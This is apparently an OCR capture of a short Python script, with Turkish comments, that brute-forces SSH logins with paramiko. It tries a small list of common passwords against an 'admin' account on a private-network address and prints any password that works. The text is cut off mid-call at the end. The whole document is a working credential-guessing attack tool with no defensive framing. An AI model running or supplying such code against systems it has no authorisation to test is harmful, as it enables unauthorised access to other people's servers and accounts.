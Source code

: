 import paramiko  def brute_force_ssh(target_ip, target_port, username, passwords):     for password in passwords:         try:             ssh = paramiko.SSHClient()             ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())             ssh.connect(target_ip, port=target_port, username=username, password=password)             print(f"Başarılı giriş! Şifre: {password}")             ssh.close()             break         except:             print(f"Başarısız giriş! Şifre: {password}")             continue  # Hedef IP, port ve kullanıcı adı target_ip = "192.168.1.100" target_port = 22 username = "admin" passwords = ["123456", "password", "admin123", "letmein"]  # Şifre listesi  brute_force_ssh(target_ip, target_port, username, pas
